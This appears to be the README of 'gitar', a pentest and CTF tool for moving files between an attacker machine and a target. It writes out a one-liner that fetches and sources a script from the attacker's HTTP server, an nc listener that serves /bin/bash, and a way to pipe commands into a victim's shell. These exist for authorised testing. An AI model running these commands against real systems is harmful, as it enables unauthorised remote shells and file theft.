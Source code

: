 # Gitar
<div align=center>
<img src=https://github.com/ariary/gitar/blob/main/img/gitar-logo.png width=150>
	
<strong>📡 A more sophisticated python HTTP server sibling <br>🎸 with even simpler interactions for file exchange (Pentest/CTF) </strong>
<br>
</div>

|![demo](https://github.com/ariary/gitar/blob/main/img/gitar-demo.gif)|
|:---:|
|**~>** Have the  ***simplest possible shortcuts*** to upload/download file to/from the target machine<br>**~>** ***No installation needed*** on target machine<br>**~>** ***Fast and simple*** deployment|



## TL;DR *- and listen music*

On my target machine:
 - **Download a file** to my attacker machine: `pull [file]`
 - **Download a directory** to my attacker machine: `pullr [directory]`
 - **Upload a file** to my attacker machine: `push [file]`
 - **Upload a directory** to my attacker machine: `pushr [directory]`

*Before be able to use these shortcut you have to [set up](#set-up) both machines. Once again, the aim is to made it as simple as possible*

## Set up

***~>*** To make **set up even simpler** shortcut/aliases are a great benefit. See [them 💥](https://github.com/ariary/bang/blob/main/README.md#gitar-pentest-easy-file-sharing)

### Pre-requisites

* HTTP Network connectivity between attacker & target machines
* On target machine: `curl` 
	* `tar` for directory upload 
* On attacker machine: 
	* `xclip` to copy command on clipboard (not required)
	* `tree`: to expose it trough server (not required)

The aim is to keep "target requirements" as fit as possible. Attacker machine requirements are not a big deal as we have plenty control over it and time to configure it.

### Launch `gitar` server 
 
#### (Attacker machine)

Launch `gitar` server: 
```shell
gitar -e [server_reachable_ip]`
```

#### (Target machine)

Get shortcuts and source them. The one-liner corresponding is by default copy on clipboard. It is also provided by step 1. (in gitar output):
```shell
curl -s http://[attacker_ip:port]/alias > /tmp/alias && source /tmp/alias && rm /tmp/alias
```

**And that's all, you can now `push`or `pull` file [🎶](#tldr---and-listen-music)**

 [`with 💥`](https://github.com/ariary/bang/blob/main/EXAMPLES.md#share-files)

### Secure launch of `gitar` server

 
This is basicaly the same as launching `gitar` server. But as we expose our http server we become the prey. Hence we must harden a bit the server. To do this we launch `gitar` inside a container and use HTTPS.

* To enable HTTPS you must have certificates. Generate them with `generate.sh`.
* To use container image, you have to built it from ` Dockerfile`: `make build.image-gitar`

The following steps expose files of current directory. Files uploaded by remote are written inside current directory also.
#### (Attacker machine)

Launch `gitar` server: 
```shell
docker run --rm --cap-drop=all --cap-add=dac_override -v "${PWD}:/app/upload" -v "${HOME}/.gitar/certs/:/certs:ro" -v "${PWD}:/app/download" -p 9237:9237 gitar -copy=false -u /app/upload -d /app/download -tls=true -c /certs
```

#### (Target machine)

Get shortcuts and source them. The one-liner corresponding is in the container stdout.

**You can now `push`or `pull` file being more safe [🎶](#tldr---and-listen-music)**

[`with 💥`](https://github.com/ariary/bang/blob/main/EXAMPLES.md#share-files-safely)

### Load shortcut directly in your reverse shell

**~>** *Below are the steps to have shortcuts directly embedded in your `nc` reverse shell*

#### (Target machine)

Launch your classic listener:
```shell
nc -nvlp 4444 -e /bin/bash
```

#### (Attacker machine)

1. Launch `gitar`server : `gitar -e [server_reachable_ip]` *(By default this will copy on clipboard the command to set up gitar exchange, also available in server output)*
2. Connect to the reverse shell + load shortcut within:`nc [VICTIM_IP] 4444` then `[CTRL+V]` 

An alternative is `export CMD=[CTRL+V] && (echo $CMD && cat) | nc [VICTIM_IP] 4444` *(Note: with `cat` you will not benefit of bash completion)*

**And enjoy you revshell [🎶](#tldr---and-listen-music)**

## Enhancement 🛣️

**~>** *All improvements must keep `gitar` simple and don't add unlikely pre-requisites (especially for the target machine)*

**Useful cause we will expose our http server and thus we become the prey**
- Hardening container image (use a non-root user, but in same time we have to be able to read/write from host volumes)
- HTTPS, basic authent (for the file server part)

**Improve UX**
- Handle case when curl isn't on target machine (wget version?) *Proposal: flag `method` (default curl), will determine the handler "alias" and adapt it in function (wget and Invoke-Webquest)
- An option to directly launch the reverse shell session with shortcut from `gitar`
- Soft to workaround limit due to `cat` use for reverse shell connection => autocompletion in reverse shell will not work as we have a pipe not a terminal. (To solve the pb we must have a prgm that creates a pseudoterminal, spawns a program connected to this pseudoterminal [see](https://stackoverflow.com/questions/5843741/how-can-i-pipe-initial-input-into-process-which-will-then-be-interactive) )


<div align=center><img src="https://github.com/ariary/gitar/blob/main/img/gitar-small.png"><div>
	
	
